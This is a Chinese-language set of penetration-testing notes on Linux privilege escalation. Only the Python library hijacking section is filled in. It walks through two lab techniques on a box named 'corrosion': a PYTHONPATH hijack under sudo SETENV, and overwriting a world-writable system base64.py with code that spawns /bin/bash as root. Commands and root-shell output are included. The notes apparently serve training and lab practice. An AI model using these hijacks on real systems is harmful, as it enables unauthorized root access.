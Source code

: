 # 权限提升



## sudo



## 服务提权



## Python 库劫持

#### PYTHONPATH

Python 在导入模块时，会按 `sys.path` 列表中的顺序搜索路径。攻击者可将恶意库放置在高优先级的路径中（如当前工作目录），覆盖合法库。

通过设置 `PYTHONPATH` 环境变量，添加攻击者控制的目录到模块搜索路径的最前端。



查看用户的 sudo 权限，允许设置环境变量，允许通过 sudo 以 root 用户允许某个 Python 脚本。

```
Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on corrosion:
    (root) SETENV: PASSWD: /usr/bin/python3.8 /home/randy/randombase64.py
```



Python 脚本的内容如下，脚本中使用 base64，可以通过 PYTHONPATH 环境变量进行劫持。

```
import base64

message = input("Enter your string: ")
message_bytes = message.encode('ascii')
base64_bytes = base64.b64encode(message_bytes)
base64_message = base64_bytes.decode('ascii')

print(base64_message)
```



创建 /tmp/lib 目录，创建 base64.py 文件

```
-rwxrwxr-x 1 randy randy   33 Mar  3 03:39 base64.py
```



base64.py 文件的内容为启动一个 bash

```
import os
os.system('/bin/bash')
```



劫持成功

```
randy@corrosion:/tmp/lib$ sudo PYTHONPATH=/tmp/lib/ /usr/bin/python3.8 /home/randy/randombase64.py 
root@corrosion:/tmp/lib# id
uid=0(root) gid=0(root) groups=0(root)
```





#### 库文件修改

Python 脚本使用某个库文件（如：base64.py），允许以 root 用户脚本，用户可以**修改库文件内容**。



sudo 允许以 root 用户运行脚本

```
sudo -l

Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on corrosion:
    (root) PASSWD: /usr/bin/python3.8 /home/randy/randombase64.py
```



Python 脚本如下：

```
import base64

message = input("Enter your string: ")
message_bytes = message.encode('ascii')
base64_bytes = base64.b64encode(message_bytes)
base64_message = base64_bytes.decode('ascii')

print(base64_message)
```



查看 Python 搜索库的路径

```
>>> import sys
>>> print("\n".join(sys.path))

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```



在系统上查找所有 base64.py 文件

```
locate base64.py

/home/randy/randombase64.py
/snap/core18/2128/usr/lib/python3.6/base64.py
/snap/gnome-3-34-1804/72/usr/lib/python2.7/base64.py
/snap/gnome-3-34-1804/72/usr/lib/python3.6/base64.py
/usr/lib/python3.8/base64.py
```



查看文件的权限（具有写入权限）

```
-rwxrwxrwx 1 root root 20420 Mar  2 16:52 /usr/lib/python3.8/base64.py
```



修改 base64.py 文件

![image-20250303085207798](./images/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95.assets/image-20250303085207798.png)



sudo 执行脚本，获得 root 权限。

```
sudo /usr/bin/python3.8 /home/randy/randombase64.py 

[sudo] password for randy: 
root@corrosion:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```



## 动态链接库劫持


